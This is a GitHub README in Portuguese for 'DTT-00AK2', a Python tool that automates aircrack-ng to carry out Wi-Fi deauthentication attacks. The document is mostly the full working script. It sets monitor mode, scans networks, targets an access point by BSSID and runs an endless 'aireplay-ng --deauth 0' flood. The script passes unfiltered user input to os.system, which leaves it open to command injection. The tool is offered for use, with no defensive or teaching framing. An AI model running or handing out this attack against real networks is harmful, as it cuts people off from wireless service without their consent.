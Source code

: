 # DTT-00AK2

Automatizei com python alguns processos do aircrack-ng. DTT-00AK2 tem como foco realizar ataques de desautenticação em um ponto de acesso sem fio. Explorando uma vulnerabilidade na camada de autenticação e/ou gerenciamento de conexões do protocolo Wi-Fi (padrões IEEE 802.11). Qualquer dispositivo ou roteador que utilize o protocolo está sujeito ao ataque.

```python

             _..---..__
           ,'          `-.
          .'` .          )             DTT-00AK2
          |     `;.__.._.'               V.1.1
           \ .`--.(##)(#).    Wi-Fi deauthentication attack 
            `-->;--' pWq`>              BY:AND3R
              < <"v\,,,,]
               `\`^-''''7
                 `~"--^-'

```pyhon

import os

class WifiAttackTool:
    RED = '\033[91m'
    YELLOW = '\033[93m'
    GREEN = '\033[92m'
    RESET = '\033[0m'

    def __init__(self):
        pass

    def start_monitor_mode(self):
        os.system("airmon-ng")
        interface = input("Digite aqui qual interface utilizar: ")
        os.system(f"airmon-ng start {interface}")

    def analyze_wifi_traffic(self):
        interface = input(self.GREEN + "Digite a interface: " + self.RESET)
        os.system(f'xterm -e airodump-ng "{interface}"')
        os.system('clear')

    def filter_results_by_bssid(self):
        channel = input(self.GREEN + "Digite o canal: " + self.RESET)
        bssid = input(self.GREEN + "Digite a BSSID: " + self.RESET)
        interface = input(self.GREEN + "Digite a interface: " + self.RESET)
        os.system('clear')
        os.system(f'xterm -e airodump-ng -c {channel} --bssid {bssid} {interface}')
        os.system('clear')

    def perform_deauthentication_attack(self):
        bssid = input(self.GREEN + "Digite a BSSID: " + self.RESET)
        interface = input(self.GREEN + "Digite a interface: " + self.RESET)
        os.system(f'xterm -e aireplay-ng --deauth 0 -a {bssid} {interface}')

    def run(self):
        while True:
            print(self.RED + """
                     _..---..__
                   ,'          `-.
                  .'` .          )             DTT-00AK2
                  |     `;.__.._.'               V.1.1
                   \ .`--.(##)(#).    Wi-Fi deauthentication attack 
                    `-->;--' pWq`>              BY:AND3R
                      < <"v\,,,,]
                       `\`^-''''7
                         `~"--^-'
            """ + self.RESET)
            print(self.RED + "1- [airmon-ng] Colocar a interface em modo monitor" + self.RESET)
            print(self.YELLOW + "2- [airodump-ng] Analisar o tráfego de redes sem fio" + self.RESET)
            print(self.RED + "3- [airodump-ng] Filtrar os resultados pelo BSSID" + self.RESET)
            print(self.YELLOW + "4- [aireplay-ng] Realizar ataque no ponto de acesso (AP)" + self.RESET)
            print(self.RED + "5- Sair" + self.RESET)

            menu = input(self.RED + "Digite uma opção >> " + self.RESET)

            if menu == "1":
                self.start_monitor_mode()
            elif menu == "2":
                self.analyze_wifi_traffic()
            elif menu == "3":
                self.filter_results_by_bssid()
            elif menu == "4":
                self.perform_deauthentication_attack()
            elif menu == "5":
                break
            else:
                print("Opção inválida")

if __name__ == "__main__":
    tool = WifiAttackTool()
    tool.run()

```

